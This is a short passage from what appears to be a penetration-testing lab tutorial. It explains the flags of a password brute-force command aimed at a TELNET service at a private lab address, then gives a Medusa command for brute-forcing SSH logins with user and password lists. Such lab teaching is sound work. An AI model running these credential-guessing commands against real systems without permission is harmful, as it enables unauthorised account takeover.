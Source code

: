 ![alt text](screenshots/image-29.png)



**Explanation:**

- `-L userlist.txt`: Specifies the file containing the usernames.

- `-P mypass.txt`: Specifies the file containing the passwords.

- `telnet://192.168.111.128:21`: Targets the TELNET service at IP address 192.168.111.128 

- `-t 4`: Specifies the number of parallel tasks (threads). You can adjust this number depending on your system's performance and the target server's response.

- `-vV`: Enables verbose output, showing detailed login attempts.

- `-w 3`: Sets a 3-second wait time between each login attempt.





For **🔐 SSH (Using Medusa)**:

📜 Command:


  ```bash
  medusa -h 192.168.111.128 -U userlist.txt -P mypass.txt -M ssh  
```
